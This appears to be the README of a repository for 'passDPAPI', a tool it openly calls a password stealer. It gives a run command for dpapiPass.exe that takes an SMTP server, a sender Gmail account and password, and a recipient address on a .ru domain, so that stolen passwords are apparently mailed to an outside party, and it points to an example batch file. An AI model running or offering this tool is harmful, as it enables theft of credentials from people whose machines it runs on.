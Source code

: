 #### passDPAPI
Password's stealer

### Run
.\dpapiPass.exe smtp.gmail.com email_from@gmail.com password email_to@ex.ru
For example, you can run /Run/example.bat.
